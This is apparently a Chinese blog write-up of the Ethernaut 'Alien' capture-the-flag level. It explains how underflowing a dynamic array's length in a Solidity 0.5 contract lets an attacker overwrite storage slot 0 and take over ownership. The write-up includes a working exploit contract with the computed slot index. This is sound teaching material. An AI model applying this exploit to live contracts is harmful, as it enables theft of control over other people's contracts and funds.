 ```yaml
---
title: '合约字节数组溢出问题'
date: 2022-12-16 12:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

#### 第十九关 Alien 思路与POC

#### 目标: 更改合约的拥有者

##### 先看代码:

##### 可是似乎合约中并没有任何变量存储合约的部署者地址如何更改呢,但是注意看此合约继承了Ownable合约.实际上合约的部署者地址就存储在Ownable合约中的_owner变量中

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {
   //由于此合约继承了Ownable所以实际上address private _owner 和下面的这个contact变量就存在此合约的slot0中   
  bool public contact;   
  // solidity中字节数组如果没有指定元素数量的话默认空间长度就是对应合约存储空间2^256 -1
  bytes32[] public codex; 

  modifier contacted() {
    assert(contact);//判断contact变量是否为true,否则revert
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

//看起来我们没有直接的方式修改private _owner变量,但是注意看这个方法
  function retract() contacted public {
  /*
  如果字节数字为空的情况下再减去元素是不是就内存溢出了呢？
  那么现在如果想要修改slot0的数据是不是可以:
  codex[2^256-1(合约存储槽总长度) - keccak256(1) + 1(溢出的字节数组长度为-1所以此处+1读取下标0)] = data
  
 question1: 为什么字节数组长度可以为负? 
   其实是因为 EVM 不会验证一个数组的长度
 question2: 为什么此时字节数组能够根据下标位置对应修改slot0的数据?
   因为此时的数组是溢出的,此时的字节数组[下标]-1已经对应了整个合约的slot 2^256 - 1长度存储空间.
 question3: 为什么字节数组下标需要这么麻烦呢 不是直接 1 2 3 呢
   比如: 
   codex[ keccak256(1) ] = codex[0]
   codex[ keccak256(2) + 1] = codex[1]
  因为字符串或字节类型存放的数据大小在EVM编译器来看是不可预知的,无法在编译期直接确定其存储位置.因此 Solidity 在编译动态数字、字典数据时采用的是特定算法。
   */
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
//部分Ownable合约代码
abstract contract Ownable is Context {
    address private _owner;
```

##### poc思路:point_right:：所以我们需要做的就是使字节数组溢出,根据 make_contact ->  retract ->  revise 这个调用顺序

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./AlienCodex.sol";

contract hackAlien {

 AlienCodex public alien   = AlienCodex(0x48a57CBA06d5AE4e82a13e39465fB82cAD0c4DC8);

//计算动态数组下标与slot0的对应位置
uint public index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;

 function byteOverflow(address  _owner) external   { 
     //满足条件
     alien.make_contact();
     //构造字节数组溢出
     alien.retract();
     //利用溢出修改slot0数据
     bytes32 owner = bytes32(uint256(uint160(_owner)));
     alien.revise(index , owner);

 }
}
```

```js
await contract.owner() //查看owner是否更改成功
```



#### 还要说的一点就是:这种字节数组直接.length -- 这种操作再solidity0.6.0开始就已经被禁止:shield: